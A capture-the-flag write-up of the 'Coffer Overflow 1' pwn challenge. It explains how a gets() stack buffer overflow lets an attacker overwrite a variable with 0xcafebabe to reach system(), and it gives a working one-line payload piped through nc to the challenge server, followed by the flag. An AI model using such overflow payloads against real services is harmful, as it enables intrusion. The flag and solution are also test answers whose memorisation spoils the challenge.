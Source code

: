 # Coffer Overflow 1

- Genre pwn

First, I checked the basic information about this binary by running some commands:
```sh
> file coffer-overflow-1
coffer-overflow-1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6a9dc1b9cad90601091c6249ccaf96dd5354440c, not stripped
> checksec coffer-overflow-1
[*] 'coffer-overflow-1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

It is a 64-bit elf and seems no shellcode allowed for this challenge.  
I ran this binary to see what it did.  

![image](https://user-images.githubusercontent.com/53568647/85848526-a2d11e00-b7ec-11ea-8663-e0f283cebd1c.png)

It asked for the user input then just exited.  
I ran gdb to take a closer look at this program.  

![image](https://user-images.githubusercontent.com/53568647/85848270-35bd8880-b7ec-11ea-8fed-4d072f629dac.png)

It had gets function and was vulnerable to buffer overflow. It was interesting that it actually called system function but required to pass the comparison to execute this.  
It examined the value of rax and if it was __0xcafebabe__ it would call system. At this point, I could assume that I could overwrite this value then pass the condition.  

To find out the required buffer I researched this binary a bit more in depth.  
I typed a random number of 'A' and observed the stack.  

![image](https://user-images.githubusercontent.com/53568647/85848276-381fe280-b7ec-11ea-8fc5-2ede9c79e0ec.png)

Based on the disassemble of the main function, the value of rax was inherited from rbp -8, and there were 24 bytes to fill the gap. Then __0xcafebabe__ would be injected following 24 byte long junk.  

I ran the following command and got the flag for this challenge.  
```sh
(python -c "print('A' * 24 + '\xbe\xba\xfe\xca' + '\x00'* 4)"; cat) | nc 2020.redpwnc.tf 31255
```

![image](https://user-images.githubusercontent.com/53568647/85848965-74077780-b7ed-11ea-82ba-f7e6b2d69509.png)

flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
